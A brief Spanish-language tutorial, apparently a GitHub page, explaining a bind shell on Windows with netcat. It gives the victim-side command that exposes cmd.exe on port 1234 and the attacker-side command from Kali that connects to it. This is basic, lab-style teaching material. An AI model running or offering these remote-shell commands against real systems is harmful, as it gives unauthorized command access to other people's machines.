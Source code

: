 <h1 align="center">Bind shell</h1>

## **Introducción**

En una **bind shell**, el objetivo (víctima) abre un puerto en su sistema y escucha conexiones entrantes. Cuando un atacante se conecta a este puerto, puede acceder al sistema de la víctima, en este caso, al cmd (símbolo del sistema) de Windows.

## **Configuración de Bind Shell**

### **En la Víctima (Sistema Windows)**

1. Abrir la terminal (cmd.exe) con permisos de administrador.
2. Ejecutar el siguiente comando para abrir el puerto 1234 y escuchar conexiones entrantes:
  
- `nc -lvnp 1234 -e cmd.exe`

### **En Kali Linux (Atacante)**

Ejecutar el siguiente comando para conectarse al puerto 1234 del sistema víctima:

- `nc -n \*ip_victima\* 1234`
